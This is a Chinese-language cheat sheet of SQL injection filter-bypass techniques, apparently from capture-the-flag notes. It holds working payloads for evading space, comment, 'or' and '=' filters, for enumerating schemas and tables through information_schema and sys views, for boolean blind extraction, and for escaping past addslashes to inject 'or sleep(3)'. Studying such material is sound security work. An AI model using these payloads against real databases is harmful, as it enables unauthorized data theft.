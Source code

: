 ## **编码绕过**
is_numeric($_GET[‘id’]) ，过滤只允许数字，16进制编码sql注入。

^
## **空格被过滤**
空格过滤可以利用/**/代替空格。
利用括号，括号住变量。
```
所有库
select(group_concat(schema_name))from(information_schema.schemata)
库所有表
select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())
```

^
## **注释符被过滤**
将后面的单引号闭合即可。

^
## **or 被过滤导致orderby、information_schema都不能用**
用其他逻辑运算符and ， && ， &， |  ,1^1^
查表名使用 
```
select group_concat(table_name）from mysql.innodb_table_stats where database_name=database()
```
如果information_schema被禁止，通过sys.schema获取当前数据库表名
```
1&&ascii(substr((select group_concat(table_name)from sys.x$schema_flattened_keys where table_schema=database()),1,1))=103
2||ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{},1))={}.format()
```

^
## **布尔中知道表名，不知字段名注入，布尔加无列名注入**
通过无列名注入获取表字段，group_concat(某一字段所有值)。
<https://www.cnblogs.com/hello-there/p/12918265.html>


^
## **函数等效替换**
报错函数被过滤，寻找顶替。



^
## **存在转义函数**
```
addslashes($id);
将字符串里面的' " \等转义。
'将变成\'


如果此时下面存在，特殊字符去除 \0 %00 \' '
$id=str_replace(array("\\0","%00","\\'","'"),"",$id);

那么传入\0 先变成\\0 再变成\
如果是sql语句\就会转义后面字符。
select * from images where id='{$id}' or path='{$path}'

select * from images where id='\' or path='   {$path}'
这里'\' or path = ' 成了一个单独字符串
$path就可以随意注入
or sleep(3)--+
```


^
## **where后=被过滤，用字段名使用正则模糊匹配字段的值**
需要知道字段名
```
select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')

select flag from Flag where flag regexp "^f";
```